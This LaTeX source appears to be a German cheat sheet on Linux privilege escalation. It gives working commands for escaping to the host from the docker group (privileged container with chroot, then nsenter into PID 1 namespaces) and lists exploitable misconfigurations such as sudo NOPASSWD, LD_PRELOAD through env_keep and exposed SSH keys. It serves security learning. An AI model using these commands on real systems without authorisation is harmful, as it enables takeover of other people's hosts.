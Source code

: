 \documentclass[
    parskip=half,
    landscape
]{scrartcl}
\providecommand{\tightlist}{%
   \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\let\originalhref\href
\renewcommand\href[2]{\originalhref{#1}{\color{blue}{#2}}}%
\begin{document}
\begin{multicols}{3}
\subsection*{\texttt{docker}-Gruppe}

Benutzer in der \texttt{docker}-Gruppe dürfen Dockercontainer starten und verwalten.

Da der Docker-Daemon mit \texttt{root}-Rechten läuft, können wir einen Container mit \texttt{root}-Rechten starten, der uns das Ausbrechen auf den Host erlaubt:

\begin{lstlisting}[language=bash]
docker run -it --privileged -v /:/root alpine chroot /root
\end{lstlisting}

Um auch die anderen Isolationen wie die Netzwerkisolation zu umgehen, brauchen wir Zugriff auf die Linux-Namespaces.
Das erreichen wir mit diesem Befehl:
\begin{lstlisting}[language=bash]
nsenter -t 1 -m -u -i -n /bin/bash
\end{lstlisting}
Dann haben wir die gleichen Privilegien wie der \texttt{init}-Prozess.

\section{Fehlkonfiguration}

\begin{itemize}
\tightlist
\item
  \texttt{login}: Benutzer ohne Passwort / mit unsicherem Passwort
\item
  \texttt{sudo}:

  \begin{itemize}
  \tightlist
  \item
    Privilegienerhöhung ohne Passwort (Option NOPASSWD)
  \item
    \texttt{env\_keep}: Reicht Umgebungsvariablen weiter, kann man in
    Kombination mit \texttt{LD\_PRELOAD} ausnutzen.
  \end{itemize}
\item
    \texttt{ssh}: Privater SSH-Key ungeschützt unter \texttt{\textasciitilde/.ssh/id\_*}
\end{itemize}

\section{Capabilities}


\end{multicols}
\end{document}
